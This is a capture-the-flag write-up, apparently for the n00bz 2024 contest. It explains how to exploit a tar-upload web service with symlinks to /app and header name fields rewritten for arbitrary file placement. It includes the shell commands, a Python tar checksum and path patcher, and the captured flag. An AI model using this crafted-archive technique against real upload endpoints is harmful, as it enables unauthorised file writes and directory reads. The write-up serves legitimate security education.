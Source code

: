```yaml
---
created: 2024-08-04T06:05
updated: 2024-08-05T19:05
points: 478
navigation: false
solves: 119
---
```


We are allowed to upload a tar file and have the remote extract it, nice.

## analysis

But we don't know the flag file name, so we can't simply add a link to the tar, pointing to the flag file, we need to read the folder `/app`.

Furthermore, `open` does not read folders, so we have to use the endpoint `/view/<name>` to read our link pointing to `/app`.

Which means we have to make a link under `/app/uploads/` that will point to `/app/` (and not under `/app/uploads/0123/aaa` during normal extraction).

## payload

1. `tar` file can contain links, with that we can target the `/app` folder.
2. `tar` file extraction allows arbitrary file write to any location by editing the name field (binary).
3. `tar` file has a crc that needs to be patched.

```bash
ln -s /app aaa
tar -cvf malicious.tar aaa
python patch.py
```

Sending it to the server and I got... Internal error.

After running my own docker instance, I found the cause.

There is no `aaa.tar` inside `/app`, so the following line failed.

```python
files.remove(f'{name}.tar')  # Remove the tar file from the list
```

To solve this we can simply add a new entry `/app/aaa.tar`.

```bash
ln -s /app aaa
ln -s /app aaa.tar
tar -cvf malicious.tar aaa aaa.tar
```

## execution
After uploading the file, visit `/view/aaa`.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722748079/2024/08/6aab82c079c6a5a981cdc69959b8ec50.png)

Clicking on `flag` we arrive at our flag.

```flag
n00bz{n3v3r_7rus71ng_t4r_4g41n!_72810bc8e5af}
```

## auto tar checksum/path patcher

> Reused from my previous writeup.

```python [patch.py]
with open("malicious.tar", "rb") as f:
    tar = f.read()
    tar = bytearray(tar)

    a1 = b"/app/uploads/aaa"
    tar[0x00:0x00+len(a1)] = a1
    a2 = b"/app/aaa.tar"
    tar[0x200:0x200+len(a2)] = a2

    off = 0
    while True:
        if tar[off] == 0:
            break
        tar[off+0x94:off+0x9c] = b' '*(0x9c-0x94)
        checksum = sum(list(tar[off+0x00:off+0x200]))
        tar[off+0x94:off+0x9c] = bytes(("%06o\0" % checksum).ljust(8), "ascii")
        print("patched", hex(off))
        off += 0x200

    tar = bytes(tar)
    with open("malicious.out.tar", "wb") as f:
        f.write(tar)
        print("Done")
```
